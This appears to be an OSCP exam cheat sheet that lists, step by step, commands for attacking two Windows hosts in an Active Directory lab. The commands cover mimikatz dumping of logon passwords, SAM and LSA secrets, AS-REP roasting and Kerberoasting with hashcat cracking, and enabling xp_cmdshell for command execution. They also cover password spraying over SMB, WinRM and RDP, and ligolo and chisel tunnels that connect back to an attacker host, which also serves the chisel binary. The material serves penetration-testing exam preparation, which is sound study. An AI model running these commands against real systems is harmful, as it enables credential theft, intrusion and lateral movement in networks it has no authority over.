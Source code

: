 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# OSCP

## 🖥️ MS01&#x20;

### 🚀 PE

* [x] <mark style="background-color:yellow;">Check user's privileges</mark>:

- `SeImpersonatePrivilege` → [escalate to LA](https://x7331.gitbook.io/boxes/tl-dr/active-directory/privileges/seimpersonateprivilege)

```powershell
# List current user's privileges
whoami /priv
```

* [x] <mark style="background-color:yellow;">Look for custom binaries</mark>:&#x20;

- `strings` locally&#x20;
- [Binary](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/services#service-binary-hijacking)/[DLL](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/services#dll-hijacking) hijacking

### 🔎Pillaging

* [x] <mark style="background-color:yellow;">Dump cached credentials</mark>:

```powershell
# Dump active sessions' creds
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Dump the SAM registry hive
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"

# Dump the LSA secrets
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::secrets" "exit"
```

* [x] <mark style="background-color:yellow;">Check PowerShell history</mark>:

{% code overflow="wrap" %}
```powershell
# Check the PS history of the current user
Get-Content (Get-PSReadlineOption).HistorySavePath

# Check the PS history of another user
Get-Content C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
{% endcode %}

* [x] <mark style="background-color:yellow;">Enumerate domain users and build a wordlist</mark>:

{% code overflow="wrap" %}
```bash
$ nxc smb <target> -u <user> -p <pass> --users | awk '$1 == "SMB" && $5 != "[+]" && $5 != "-Username-" && $5 != "[*]" && $5 != "Guest" && $5 != "krbtgt" {print $5}' > domain_users
```
{% endcode %}

* [x] <mark style="background-color:yellow;">Enumerate SMB shares</mark>

```bash
nxc smb 192.168.X.X -u <user> -p <pass> --shares
```

* [x] <mark style="background-color:yellow;">Check for</mark> [<mark style="background-color:yellow;">AS-REP Roasting</mark>](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/asreproasting):

{% code overflow="wrap" %}
```bash
# AS-REPRoast
impacket-GetNPUsers oscp.exam/ -dc-ip 10.10.X.X -no-pass -usersfile domain_users

# Crack obtained hashes
hashcat -m 18200 asreproast_users /usr/share/wordlists/rockyou -r /usr/share/hashcast/rules/best64.rule --force
```
{% endcode %}

* [x] <mark style="background-color:yellow;">Check for</mark> [<mark style="background-color:yellow;">Kerberoasting</mark>](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/kerberoasting):

{% code overflow="wrap" %}
```bash
# Kerberoast
impacket-GetUserSPNs -request -dc-ip 10.10.X.X oscp.exam/<user>

# Crack obtained hashes
hashcat -m 13100 kerberoast_users /usr/share/wordlist/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}

* If `sql_svc` → interact directly:

{% code overflow="wrap" %}
```bash
# impacket
mssqlclient.py <domain>/<user>@<host> -windows-auth
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';

# Remote queries
nxc mssql <target> -u <user> -p <pass> --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
# System RCE via xp_cmdshell
nxc mssql <target> -u <user> -p <pass> --local-auth -x whoami
```
{% endcode %}

* [x] <mark style="background-color:yellow;">Password spray for lateral movement, PE, and remote access</mark>:

{% code overflow="wrap" %}
```bash
# Pass-spray for lateral movement/PE (local auth)
nxc smb domain_ips -u domain_users -p passwords --continue-on-success --local-auth | grep +

# Pass-spray for lateral movement/PE
nxc smb domain_ips -u domain_users -p passwords --continue-on-success | grep +

# Pass-spray for WinRM access
nxc winrm domain_ips -u domain_users -p passwords --continue-on-success | grep +

# Pass-spray for RDP access
nxc rdp domain_ips -u domain_users -p passwords --continue-on-success | grep +
```
{% endcode %}

### 🖧 Pivot

* [x] <mark style="background-color:yellow;">Start the server on the attacking host</mark>:

```bash
# Start proxy
sudo ligolo-proxy -selfcert

# Create the interface
ligolo-ng » interface_create --name ligolo
```

* [x] <mark style="background-color:yellow;">Start the agent on the pivot host</mark>:

```powershell
# Connect to the proxy
.\agent.exe -connect 192.168.X.X:11601 -ignore-cert
```

* [x] <mark style="background-color:yellow;">Set up routing on the attacking host</mark>:

```bash
# List active sessions
ligolo-ng » session

# Add route
ligolo-ng » interface_add_route --name ligolo --route 172.16.10.0/24

# Start the tunnel
ligolo-ng » start
```

## 🖥️ MS02

### 🚀 PE

* [x] <mark style="background-color:yellow;">Connect via WinRM or RDP</mark>:

```bash
# Connect via WinRM
evil-winrm -u <user> -p <pass> -i <MS02>

# Connect via RDP
xfreerdp /u:<user> /p:<pass> /v:<MS02> /smart-sizing
```

* [x] <mark style="background-color:yellow;">Check user's privileges</mark>:

```powershell
# List current user's privileges
whoami /priv
```

* [x] <mark style="background-color:yellow;">Check SMB access:</mark>

```bash
nxc smb 192.168.X.X -u <user> -p <pass> --shares
```

* [x] <mark style="background-color:yellow;">Check for</mark> <mark style="background-color:yellow;"></mark><mark style="background-color:yellow;">`C:\windows.old`</mark>:

- Dump `SAM` and `SYSTEM` locally

```bash
# Dump SAM's hashes
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

* [x] <mark style="background-color:yellow;">Look for custom binaries</mark>:&#x20;

- `strings` locally&#x20;
- [Binary](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/services#service-binary-hijacking)/[DLL](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/services#dll-hijacking) hijacking

* [x] <mark style="background-color:yellow;">Check for locally active sockets</mark>:

- Port forward

```powershell
# List active sockets
netstat -ano
```

```bash
# Start server on the attacking host
$ ./chisel server -p 8000 --reverse
```

```powershell
# Tranfer binary
wget http://192.168.X.X:8888/chisel.exe -o chisel.exe

# Start client on target
# 3306 (target port) to 6033 (local port) 
.\chisel.exe client 192.168.45.157:8000 R:3306:127.0.0.1:6033
```

```bash
# Interact from attacking host
$ mysql -h 127.0.0.1 -P 3306 -u root
```

* [x] <mark style="background-color:yellow;">Check PowerShell history</mark>:

{% code overflow="wrap" %}
```powershell
# Check the PS history of the current user
Get-Content (Get-PSReadlineOption).HistorySavePath

# Check the PS history of another user
Get-Content C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
{% endcode %}

* [x] <mark style="background-color:yellow;">Password spray for potential PE (DA/LA on the DC)</mark>:

{% code overflow="wrap" %}
```bash
# Pass-spray for PE (local auth)
nxc smb <dc-ip> -u domain_users -p passwords --continue-on-success --local-auth | grep +

# Pass-spray for PE
nxc smb <dc-ip> -u domain_users -p passwords --continue-on-success | grep +
```
{% endcode %}
